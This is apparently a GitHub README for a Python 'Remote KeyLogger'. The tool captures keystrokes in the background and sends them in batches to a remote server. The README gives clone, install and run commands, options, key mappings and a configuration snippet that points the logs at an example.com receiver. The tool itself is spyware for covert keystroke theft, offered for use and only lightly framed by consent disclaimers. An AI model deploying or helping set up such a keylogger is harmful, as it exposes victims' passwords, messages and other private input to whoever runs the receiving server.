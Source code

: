 Remote KeyLogger
<p align="center"> <img src="https://cdn.vectorstock.com/i/preview-1x/88/78/keylogger-cyber-security-icon-or-pictogram-vector-42318878.jpg" alt="Remote KeyLogger Logo"> </p>
🚀 Overview
The Remote KeyLogger is a sophisticated Python-based tool for capturing and transmitting keystrokes in real-time to a remote server. Designed with security and performance in mind, it is perfect for ethical monitoring, educational purposes, and secure logging.

⚠️ Disclaimer: This tool must be used in compliance with all legal regulations. Unauthorized or unethical use of this tool is strictly prohibited.

✨ Features
🔒 Real-Time Logging: Captures keystrokes as they happen, ensuring no data is missed.
📡 Remote Transmission: Securely sends logs to a remote server for centralized tracking.
🧹 Buffer Control: Logs are sent in batches for optimal performance and resource usage.
📝 Local Backup: Maintains local log storage as a backup.
🔑 Special Key Mapping: Recognizes and logs special keys like Enter, Space, Backspace, and more.
🛠️ Getting Started
To get started with the Remote KeyLogger, follow the simple steps below. This tool is easy to set up and highly customizable for your needs.

Use Cases:
✔️ User Behavior Monitoring (with consent)
✔️ Educational Purposes
✔️ Security Auditing
💻 Installation
Clone the Repository:

bash
Copy code
git clone https://github.com/tejasbargujepatil/Keylogger.py
cd Keylogger.py
Install Required Dependencies:

bash
Copy code
pip install -r requirements.txt
Configure the Server:
Update the server_url in the Python script (main.py) to point to your log receiver endpoint.

Run the KeyLogger:

bash
Copy code
python main.py
🎯 Usage
After installation, the KeyLogger will begin logging keystrokes immediately. It works in the background and periodically transmits logs based on your configured buffer size.

Command-line Options:
Log File: Customize the path where logs are stored locally.
Buffer Size: Adjust the number of keystrokes before sending logs to the server.
Example Command:
bash
Copy code
python main.py --log_file "path/to/logfile.txt" --buffer_size 100
Special Key Mapping:
Space ->
Enter -> \n
Backspace -> [BACKSPACE]
Arrow Keys -> [UP], [DOWN], [LEFT], [RIGHT]
⚙️ Configuration
The KeyLogger allows you to easily adjust settings within the code, such as the buffer size, log file path, and remote server URL.

Example Configuration:
python
Copy code
server_url = "https://example.com/log_receiver"
logger = RemoteKeyLogger(server_url=server_url, buffer_size=50)
logger.run()
🔐 Security Considerations
Using this tool responsibly is crucial. Here are some best practices to ensure data privacy and security:

Encryption: Transmit logs using HTTPS or add custom encryption for better protection.
Server Authentication: Ensure that only authorized entities can access the remote server.
Compliance: Always secure explicit consent from monitored users and ensure compliance with legal requirements.
🛡️ License
This project is licensed under the MIT License – see the LICENSE file for details.

🤝 Contributing
We welcome contributions to enhance this project! If you have ideas, improvements, or bug fixes, feel free to:

Fork the repository.
Create a Branch:
bash
Copy code
git checkout -b feature/YourFeature
Commit Your Changes:
bash
Copy code
git commit -m 'Add new feature'
Push to the Branch:
bash
Copy code
git push origin feature/YourFeature
Submit a Pull Request.
📧 Contact
If you have any questions or suggestions, feel free to reach out to the maintainer:

Maintainer: @Tejas_Barguje_Patil
Email: tejasbarguje9@gmail.com

📸 Keylogger Images
<p align="center"> <img src="https://th.bing.com/th/id/OIP.9rLBjMp_me0q2V4jcsUpwwAAAA?rs=1&pid=ImgDetMain" alt="Logging in Progress"> <br><i>Real-time logging in progress</i> </p> <p align="center"> <img src="https://gridinsoft.com/img/article/keylogger/logs-keylogger.webp" alt="Log Data Transmission"> <br><i>Transmitting log data securely</i> </p>
👏 Thank You for Exploring the Remote KeyLogger Project!
We hope this project serves your needs, whether for learning, monitoring, or auditing. Please ensure that all use remains ethical and in compliance with legal guidelines.

Badges (Optional)
<p align="center"> <img src="https://img.shields.io/github/stars/tejasbargujepatil/Keylogger.py.svg" alt="GitHub Stars"> <img src="https://img.shields.io/github/forks/tejasbargujepatil/Keylogger.py.svg" alt="GitHub Forks"> <img src="https://img.shields.io/github/license/tejasbargujepatil/Keylogger.py.svg" alt="License"> </p>
